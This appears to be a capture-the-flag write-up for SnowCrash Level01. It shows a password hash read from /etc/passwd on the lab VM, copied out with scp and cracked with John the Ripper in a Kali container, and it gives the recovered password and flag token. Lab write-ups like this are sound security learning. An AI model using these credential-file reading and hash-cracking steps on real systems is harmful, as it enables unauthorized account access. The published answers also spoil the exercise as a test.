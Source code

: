 # SnowCrash

## Level01

Remember level00 we tried cat /etc/passwd and we got this result

```
level00@SnowCrash:~$ cat /etc/passwd
...
...
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
...
```

username:password:UID:GID:.....

It looks like we find our password or at least an hashed version of it.
We'll need to crack it.

The best way to do it is to use 'John The Ripper' which is a famous tool for cracking passwords

First let's extract the file /etc/passwd from the VM

```
scp -P 4242 level01@localhost:/etc/passwd .
```

We'll then need to run a docker image of linux to have the rights to install JTR
Kali is the best choice because we'll only need to install JTR without it's dependencies

```
docker run --rm -v .:/data -it kalilinux/kali-rolling /bin/bash
```

This command will run a kali docker and create a volume between ${pwd} and /data to be able to access our 'passwd' file

Let's install JTR and run it

```
┌──(root㉿630f85230c9d)-[/]
└─# apt-get update && apt-get install john -y

┌──(root㉿630f85230c9d)-[/]
└─# john /data/passwd
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
Will run 24 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 642 candidates buffered for the current salt, minimum 6144 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst
```
:memo: <span style="color:red">abcdefg          (flag01)</span>
```
1g 0:00:00:00 DONE 2/3 (2025-02-19 19:04) 10.00g/s 1405Kp/s 1405Kc/s 1405KC/s 123456..Sssing
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
...
```

Let's try the password

```
level01@SnowCrash:~$ su flag01
Password: abcdefg
Don't forget to launch getflag !
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```